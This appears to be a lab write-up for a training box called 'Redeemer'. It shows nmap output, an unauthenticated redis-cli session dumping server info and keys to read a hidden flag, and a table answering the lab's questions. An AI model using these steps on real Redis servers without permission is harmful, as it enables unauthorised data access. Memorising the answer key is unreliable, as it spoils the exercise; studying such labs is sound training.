

# Redeemer



# Box Information

```shellscript
10.129.30.229
```

# Initial Access

&#x20;Start by pinging the box, looks unix?

```shellscript
$ ping 10.129.30.229          
PING 10.129.30.229 (10.129.30.229) 56(84) bytes of data.
64 bytes from 10.129.30.229: icmp_seq=1 ttl=63 time=28.2 ms
64 bytes from 10.129.30.229: icmp_seq=2 ttl=63 time=34.8 ms
64 bytes from 10.129.30.229: icmp_seq=3 ttl=63 time=26.6 ms
```

Lets nmap this 

```shellscript
PORT     STATE SERVICE REASON         VERSION
6379/tcp open  redis   syn-ack ttl 63 Redis key-value store 5.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=1/7%OT=6379%CT=%CU=38565%PV=Y%DS=2%DC=T%G=N%TM=677D654
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=FA%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 33.570 days (since Wed Dec  4 22:52:45 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=250 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   26.36 ms 10.10.14.1
2   26.72 ms 10.129.30.22
```

# Redis (6379/TCP)

Researched redis hack tricks looks like we should use the redis-cli tool and see what we can do. 

[Redeemer](https://affine.cl4p/workspace/0555163b-34ca-46d0-b621-4dca4b1ea1db/Mxim-2nIYRW8li-Y5EyWK)

```shellscript
└─$ redis-cli -h 10.129.30.229
10.129.30.229:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:746
run_id:083e96a545e61c4d2a1b9a4b8e09f50507b895c5
tcp_port:6379
uptime_in_seconds:908
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:8218184
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:4
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:5861376
used_memory_rss_human:5.59M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.00%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1612120
allocator_active:1949696
allocator_resident:9158656
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.21
allocator_frag_bytes:337576
allocator_rss_ratio:4.70
allocator_rss_bytes:7208960
rss_overhead_ratio:0.64
rss_overhead_bytes:-3297280
mem_fragmentation_ratio:7.17
mem_fragmentation_bytes:5043760
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1736271425
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:0
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:409600
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:7
total_commands_processed:7
instantaneous_ops_per_sec:0
total_net_input_bytes:320
total_net_output_bytes:14861
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:271
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:8a8aed1971b0b172cf0caa6d17926fb2a76a9b8d
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.663545
used_cpu_user:0.554676
used_cpu_sys_children:0.000000
used_cpu_user_children:0.001200

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0

```

Only one database with four keys, lets dump them

```shellscript
10.129.30.229:6379> keys *
1) "stor"
2) "flag"
3) "temp"
4) "numb"
```

One of them is named flag, bet that is the one we want.

```shellscript
10.129.30.229:6379> get flag
<HIDDEN>
```

# Questions

| Title                                                                                                                                                 | Answer    |
| ----------------------------------------------------------------------------------------------------------------------------------------------------- | --------- |
| Which TCP port is open on the machine?                                                                                                                | 6379      |
| Which service is running on the port that is open on the machine?                                                                                     | redis     |
| What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database                                  | in-memory |
| Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments. | redis-cli |
| Which flag is used with the Redis command-line utility to specify the hostname?                                                                       | -h        |
| Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?                              | info      |
| What is the version of the Redis server being used on the target machine?                                                                             | 5.0.7     |
| Which command is used to select the desired database in Redis?                                                                                        | select    |
| How many keys are present inside the database with index 0?                                                                                           | 4         |
| Which command is used to obtain all the keys in a database?                                                                                           | keys \*   |

